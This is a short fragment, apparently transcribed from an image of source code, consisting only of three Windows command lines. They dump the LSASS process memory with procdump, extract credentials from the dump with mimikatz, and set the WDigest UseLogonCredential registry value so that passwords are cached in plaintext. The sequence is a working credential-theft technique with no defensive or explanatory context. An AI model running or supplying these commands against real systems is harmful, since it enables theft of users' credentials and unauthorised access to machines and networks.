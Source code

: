procdump64.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe lsass.dmp
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
